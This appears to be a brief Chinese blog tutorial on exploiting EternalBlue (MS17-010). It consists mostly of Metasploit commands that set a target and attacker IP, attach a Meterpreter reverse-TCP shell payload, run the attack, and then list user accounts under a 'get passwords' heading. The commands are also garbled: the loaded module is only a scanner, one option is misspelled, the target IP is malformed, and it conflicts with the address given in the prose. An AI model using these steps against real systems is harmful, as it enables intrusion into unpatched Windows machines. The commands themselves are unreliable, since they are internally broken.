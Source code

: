 ```yaml
---
layout: post
title:  永恒之蓝
categories: 安全知识
description: 永恒之蓝
keywords: 永恒之蓝
---
```


# 

```
use auxiliary/scanner/smb/smb_ms17_010

# 设置靶机ip
set rhosts 192.1683.139.140

# 设置攻击主机ip地址
set lhosts 192.168.139.153


# —设置反弹到本机

set payload windows/x64/meterpreter/reverse_tcp

# 开始攻击
run



```


 4.show options查看这个模块的选项，在Required列中，yes的是必填项，no是选填的，要手动设置RHOSTS的参数，指定的主机ip，我们设置成靶机（windows7）的ip地址：192.168.1.101

![](https://img-blog.csdnimg.cn/20201112143411832.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM3MzQwOTcz,size_16,color_FFFFFF,t_70#pic_center)

查看漏洞的条件

```dotnetcli
show targets
```


获取密码

```dotnetcli
net user

```

# 参考
https://blog.csdn.net/qq_37340973/article/details/109642113